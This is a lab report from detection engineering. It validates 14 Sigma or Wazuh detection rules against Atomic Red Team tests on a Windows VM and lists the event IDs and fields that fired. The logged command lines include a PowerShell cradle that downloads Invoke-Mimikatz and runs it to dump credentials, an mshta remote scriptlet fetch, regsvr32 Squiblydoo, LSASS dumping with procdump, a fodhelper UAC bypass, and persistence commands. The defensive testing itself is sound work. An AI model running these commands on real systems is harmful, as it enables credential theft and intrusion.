









# Atomic Red Team Validation Results

**Lab Environment**

| Component | Details |
|---|---|
| OS | Windows 10 VM (VirtualBox) |
| Telemetry | Sysmon (SwiftOnSecurity config) |
| SIEM | Wazuh 4.x (WSL2 Ubuntu) |
| Wazuh Agent | Deployed on Windows 10 VM |
| Adversary Emulation | Atomic Red Team (Invoke-AtomicRedTeam) |

---

## T1059.001 — Encoded PowerShell Execution

**Rule file:** `sigma-rules/windows/execution/powershell_encoded_command.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1059.001 -TestNumbers 17` |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.commandLine` |
| Key Value Observed | `powershell.exe -e <Base64 blob>` |
| Secondary Event ID | 4104 (PowerShell Script Block Logging) |
| Cleanup Command | `Invoke-AtomicTest T1059.001 -TestNumbers 4 -Cleanup` |

**What happened:**
Sysmon EID 1 fired within seconds of ART execution showing `powershell.exe`
spawned with `-e` followed by a Base64 string in the CommandLine field.
PowerShell Script Block log EID 4104 also fired showing the decoded payload.

**Wazuh alert screenshot:**

---

## T1053.005 — Scheduled Task Creation via schtasks.exe

**Rule file:** `sigma-rules/windows/persistence/scheduled_task_creation.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1053.005 -TestNumbers 1` |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.commandLine` |
| Key Value Observed | `schtasks.exe /Create /SC ONCE /TR cmd.exe` |
| Secondary Event ID | 4698 (Scheduled Task Created — Windows Security Log) |
| Cleanup Command | `Invoke-AtomicTest T1053.005 -TestNumbers 1 -Cleanup` |

**What happened:**
Sysmon EID 1 fired showing `schtasks.exe` process creation with `/Create`
and `/SC` in the CommandLine. Windows Security EID 4698 also appeared
confirming the task was registered in the Task Scheduler. Both events
appeared in Wazuh within the same second.

**Wazuh alert screenshot:**

---

## T1003.001 — LSASS Memory Access (Credential Dumping)

**Rule file:** `sigma-rules/windows/credential_access/lsass_process_access.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1003.001 -TestNumbers 1` |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 10 (ProcessAccess) |
| Key Field | `data.win.eventdata.targetImage` + `data.win.eventdata.grantedAccess` |
| Key Value Observed | `TargetImage: lsass.exe` · `GrantedAccess: 0x1010` |
| Cleanup Command | `Invoke-AtomicTest T1003.001 -TestNumbers 1 -Cleanup` |

**What happened:**
Sysmon EID 10 fired showing `procdump.exe` opening a handle to `lsass.exe`
with access mask `0x1010` (PROCESS_VM_READ + PROCESS_QUERY_INFORMATION).
Only `wininit.exe` is filtered by process name — all other processes alert
if they request credential-dumping masks.

**Wazuh alert screenshot:**

---

## T1547.001 — Registry Run Key Persistence

**Rule file:** `sigma-rules/windows/persistence/registry_run_key_persistence.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1547.001 -TestNumbers 1` |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.commandLine` |
| Key Value Observed | `reg.exe add HKCU\...\CurrentVersion\Run` |
| Cleanup Command | `Invoke-AtomicTest T1547.001 -TestNumbers 1 -Cleanup` |

**What happened:**
ART used `reg.exe` to write the Run key entry. Wazuh alerted on Sysmon
EID 1 (ProcessCreate) — `reg.exe` spawned with the Run key path in
CommandLine. EID 13 (RegistryEvent) did not fire. Rule updated from
`registry_set` to `process_creation` logsource to match observed telemetry.
Filter applied on CommandLine content to exclude known legitimate reg.exe
operations.

**Wazuh alert screenshot:**

---

## T1548.002 — UAC Bypass via Fodhelper.exe

**Rule file:** `sigma-rules/windows/privilege_escalation/uac_bypass_fodhelper.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1548.002 -TestNumbers 3` |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.parentImage` |
| Key Value Observed | `C:\Windows\System32\fodhelper.exe` |
| Child Process Observed | `cmd.exe` spawned with High integrity token — no UAC prompt |
| Cleanup Command | `Invoke-AtomicTest T1548.002 -TestNumbers 3 -Cleanup` |

**What happened:**
ART set registry keys under `HKCU\Software\Classes\ms-settings\Shell\Open\command`
then executed `fodhelper.exe`. Fodhelper spawned `cmd.exe` elevated without
a UAC dialog. Sysmon EID 1 fired immediately showing `fodhelper.exe` as
the parent process.

**Wazuh alert screenshot:**

---

## T1016 — System Network Configuration Discovery

**Rule file:** `sigma-rules/windows/discovery/network_config_discovery.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1016 -TestNumbers 1` |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.image` |
| Key Value Observed | `C:\Windows\System32\ipconfig.exe` |
| Parent CommandLine | `cmd.exe /c ipconfig /all & netsh interface show interface & arp -a & nbtstat -n & net config` |
| Cleanup Command | N/A — no cleanup required |

**What happened:**
ART executed a full network discovery chain via `cmd.exe`. Sysmon EID 1
fired for `ipconfig.exe`. Wazuh confirmed 1 hit filtered on
`data.win.eventdata.image: *ipconfig*`. ParentCommandLine shows the
complete discovery chain used by adversaries post-compromise.

**Wazuh alert screenshot:**

---

## T1047 — Windows Management Instrumentation (WMI) Process Execution

**Rule file:** `sigma-rules/windows/execution/wmic_process_creation.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1047 -TestNumbers 5` |
| ART Test Name | WMI Execute Local Process |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.commandLine` |
| Key Value Observed | `wmic process call create notepad.exe` |
| Image | `C:\Windows\System32\wbem\WMIC.exe` |
| Cleanup Command | `Invoke-AtomicTest T1047 -TestNumbers 5 -Cleanup` |

**What happened:**
ART executed `wmic process call create notepad.exe` using WMI's
`Win32_Process.Create()` method. Notepad spawned (ProcessId visible
in output). Sysmon EID 1 fired for `WMIC.exe` with the process creation
command visible in CommandLine. Wazuh confirmed 1 hit.

**Wazuh alert screenshot:**

---

## T1057 — Process Discovery via tasklist

**Rule file:** `sigma-rules/windows/discovery/process_discovery_tasklist.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1057 -TestNumbers 2` |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.image` |
| Key Value Observed | `C:\Windows\System32\tasklist.exe` |
| Cleanup Command | N/A — no cleanup required |

**What happened:**
ART executed `tasklist.exe` to enumerate all running processes. Sysmon
EID 1 fired. Wazuh confirmed 1 hit filtered on `*tasklist*`.
Full process list visible in VM including svchost, OneDrive, explorer —
standard post-compromise recon output.

**Wazuh alert screenshot:**

---

## T1059.001 — PowerShell Download Cradle (Mimikatz via IEX)

**Rule file:** `sigma-rules/windows/execution/powershell_download_cradle.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1059.001 -TestNumbers 1` |
| ART Test Name | Mimikatz |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | PowerShell Script Block Logging |
| Event ID | **4104** (ScriptBlockText — not EID 1) |
| Key Field | `data.win.eventdata.scriptBlockText` |
| Key Value Observed | `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/.../Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds` |
| Cleanup Command | `Invoke-AtomicTest T1059.001 -TestNumbers 1 -Cleanup` |

**What happened:**
ART downloaded and executed Invoke-Mimikatz via PowerShell download cradle.
Detection fired on **EID 4104** (Script Block Logging), not EID 1 —
the `DownloadString` call is inside the script body, not in the
`powershell.exe` CommandLine itself. Wazuh showed 2 hits (script body
logged across 2 script block records). Mimikatz output visible showing
credential dump attempt (failed — no domain). Detection depends on
Script Block Logging being enabled.

**Note on detection source:**
This technique is detected via `data.win.eventdata.scriptBlockText`
containing `DownloadString` and `IEX`. Rule should include EID 4104
as a detection source alongside EID 1 for full coverage.

**Wazuh alert screenshot:**

---

## T1082 — System Information Discovery

**Rule file:** `sigma-rules/windows/discovery/systeminfo_execution.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1082 -TestNumbers 1` |
| ART Test Name | System Information Discovery |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.image` |
| Key Value Observed | `C:\Windows\System32\systeminfo.exe` |
| Parent Image | `C:\Windows\System32\cmd.exe` |
| Parent CommandLine | `cmd.exe /c systeminfo & reg query HKLM\SYSTEM\CurrentControlSet\Services\Disk\Enum` |
| Cleanup Command | N/A — no cleanup required |

**What happened:**
ART executed `systeminfo.exe` via `cmd.exe`. Wazuh confirmed 1 hit.
Full system information visible in VM output including OS version,
domain (WORKGROUP), hotfixes, NIC details — standard adversary
reconnaissance output post-compromise.

**Wazuh alert screenshot:**

---

## T1140 — Deobfuscate/Decode via Certutil

**Rule file:** `sigma-rules/windows/defence_evasion/certutil_decode.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1140 -TestNumbers 1` |
| ART Test Name | Deobfuscate/Decode Files Or Information |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.commandLine` |
| Key Value Observed | `certutil -encode C:\Windows\System32\calc.exe C:\Users\raysa\AppData\Local\Temp\T1140_calc.txt` |
| Wazuh Hit Count | 2 (encode step + decode step both fired) |
| Cleanup Command | `Invoke-AtomicTest T1140 -TestNumbers 1 -Cleanup` |

**What happened:**
ART ran certutil to first encode `calc.exe` to Base64 (`-encode`), then
decode it back (`-decode`). Both operations fired Sysmon EID 1 and
Wazuh alerted on both — confirmed 2 hits in dashboard. CommandLine
clearly shows certutil with encode/decode flags and Temp path output.

**Wazuh alert screenshot:**

---

## T1218.005 — Mshta Proxy Execution

**Rule file:** `sigma-rules/windows/defence_evasion/mshta_proxy_execution.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1218.005 -TestNumbers 1` |
| ART Test Name | Mshta executes JavaScript Scheme Fetch Remote Payload |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.commandLine` |
| Key Value Observed | `mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/mshta.sct')).Exec();close();` |
| Wazuh Hit Count | 2 |
| Cleanup Command | `Invoke-AtomicTest T1218.005 -TestNumbers 1 -Cleanup` |

**What happened:**
ART executed `mshta.exe` with a JavaScript scheme fetching a remote
`.sct` scriptlet. Wazuh alerted with 2 hits. The full remote URL is
visible in the CommandLine confirming live payload fetch via mshta —
a classic application whitelisting bypass. ART test ran twice (initial
run + re-run both captured).

**Wazuh alert screenshot:**

---

## T1218.010 — Regsvr32 Proxy Execution

**Rule file:** `sigma-rules/windows/defence_evasion/regsvr32_proxy_execution.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1218.010 -TestNumbers 1` |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | 1 (ProcessCreate) |
| Key Field | `data.win.eventdata.commandLine` |
| Key Value Observed | `C:\Windows\system32\regsvr32.exe /s /u /i:"C:\AtomicRedTeam\atomics\T1218.010\src\RegSvr32.sct" scrobj.dll` |
| Cleanup Command | `Invoke-AtomicTest T1218.010 -TestNumbers 1 -Cleanup` |

**What happened:**
ART executed regsvr32 with `/i:` flag pointing to a local `.sct` COM
scriptlet and `scrobj.dll`. Sysmon EID 1 fired showing the full
CommandLine. Wazuh confirmed 4 hits (multiple regsvr32 invocations
during the test). The `/i:` and `scrobj.dll` combination is the
canonical Squiblydoo bypass pattern.

**Wazuh alert screenshot:**

---

## T1546.003 — WMI Event Subscription Persistence

**Rule file:** `sigma-rules/windows/persistence/wmi_event_subscription.yml`

| Field | Value |
|---|---|
| ART Test | `Invoke-AtomicTest T1546.003 -TestNumbers 1` |
| ART Test Name | Persistence via WMI Event Subscription — CommandLineEventConsumer |
| Wazuh Alert Fired | ✅ Yes |
| Primary Event Source | Sysmon |
| Event ID | **20** (WmiEventConsumer activity detected) |
| Key Field | `message` |
| Key Value Observed | `EventType: WmiConsumerEvent · Operation: Created · Name: AtomicRedTeam-WMIPersistence-CommandLineEventConsumer-Example · Type: Command Line · Destination: C:\Windows\System32\notepad.exe` |
| Cleanup Command | `Invoke-AtomicTest T1546.003 -TestNumbers 1 -Cleanup` |

**What happened:**
ART created a WMI CommandLineEventConsumer persistence subscription.
Sysmon EID 20 fired capturing the consumer creation with full details
visible in the Wazuh alert message — consumer name, type (Command Line),
and destination (`notepad.exe` as the payload). Script Block Logging
was confirmed enabled during this test.

**Wazuh alert screenshot:**

---

## ART Validation Summary

| # | Technique | Rule | ART Test | Alert | Primary EID |
|---|---|---|---|---|---|
| 1 | T1059.001 | Encoded PowerShell | T1059.001-17 | ✅ | Sysmon 1 |
| 2 | T1053.005 | Scheduled Task | T1053.005-1 | ✅ | Sysmon 1 |
| 3 | T1003.001 | LSASS Access | T1003.001-1 | ✅ | Sysmon 10 |
| 4 | T1547.001 | Registry Run Key | T1547.001-1 | ✅ | Sysmon 1 |
| 5 | T1548.002 | UAC Bypass Fodhelper | T1548.002-3 | ✅ | Sysmon 1 |
| 6 | T1016 | Network Config Discovery | T1016-1 | ✅ | Sysmon 1 |
| 7 | T1047 | WMIC Process Creation | T1047-5 | ✅ | Sysmon 1 |
| 8 | T1057 | Process Discovery | T1057-2 | ✅ | Sysmon 1 |
| 9 | T1059.001-DL | PowerShell Download Cradle | T1059.001-1 | ✅ | PS 4104 |
| 10 | T1082 | System Info Discovery | T1082-1 | ✅ | Sysmon 1 |
| 11 | T1140 | Certutil Encode/Decode | T1140-1 | ✅ | Sysmon 1 |
| 12 | T1218.005 | Mshta Proxy Execution | T1218.005-1 | ✅ | Sysmon 1 |
| 13 | T1218.010 | Regsvr32 Proxy Execution | T1218.010-1 | ✅ | Sysmon 1 |
| 14 | T1546.003 | WMI Event Subscription | T1546.003-1 | ✅ | Sysmon 20 |

**Total ART-validated rules: 14/14**
